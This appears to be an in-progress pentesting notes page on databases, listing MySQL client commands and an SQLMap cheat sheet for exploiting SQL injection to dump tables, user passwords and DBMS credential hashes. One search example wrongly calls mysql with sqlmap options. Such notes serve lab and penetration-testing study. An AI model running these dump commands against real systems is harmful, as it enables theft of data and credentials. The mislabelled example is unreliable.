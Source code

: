 ```yaml
---
description: >-
  Databases vary widely, each requiring specific commands, tools, and syntax.
  This chapter provides guidance on navigating these differences.
---
```


# Databases

<mark style="color:red;background-color:yellow;">This chapter is in-progress.</mark>

<mark style="color:blue;">Check the index on the right to navigate this page more easily.</mark>

## Database Management Systems

### MySQL

Connect to a MySQL server

```bash
# Local service
mysql -u acuity -pSuperStr00ng!

# Remote service
mysql -u acuity -p -h <IP> -P 3306
```

List all databases

```sql
show databases;
```

Select a database

```sql
use name_of_database;
```

List all tables in the active database

```sql
show tables;
```

List content of a table

```sql
# List all content
select * from name_of_table;

# Define a more specific selection
select username, password from users where username = 'HTB';
```

### Microsoft SQL

### PostgreSQL



***

## Tools

### SQLMap

An open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. [https://sqlmap.org/](https://sqlmap.org/)

#### Basic Data Enumeration

```bash
# Check version, user, db name and admin permissions
sqlmap -u "http://www.acuity.lab/?id=1" --banner --current-user --current-db --is-dba
```

#### Table Enumeration

```bash
# Dump everything from MySQL server (no system databases) and require no user input
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs --batch

# Dump everything from a specific database
sqlmap -u "http://www.example.com/?id=1" -D database --dump

# Enumerate all tables within the specified DB
sqlmap -u "http://www.example.com/?id=1" --tables -D database

# Dump all data from the specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database

# Dump only specific columns from specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database -C name,password

# Limit rows dumped by ordinal numbers
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --start=2 --stop=3

# Dump data based on matched conditions
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name = 'acuity'"

# alternative
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name LIKE 'acu%'"
```

#### Search for columns, tables or databases

Switch `--search` needs to be used in conjunction with one of the following support options:

* `-C` following a list of comma-separated column names to look for across the whole database management system.
* `-T` following a list of comma-separated table names to look for across the whole database management system.
* `-D` following a list of comma-separated database names to look for across the database management system.

Example:

```bash
# Search for tables containg "cred" in their name across DBMS
mysql -u "http://www.example.com/?id=1" --search -T cred
```

#### Dumping database-specific credentials

```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```
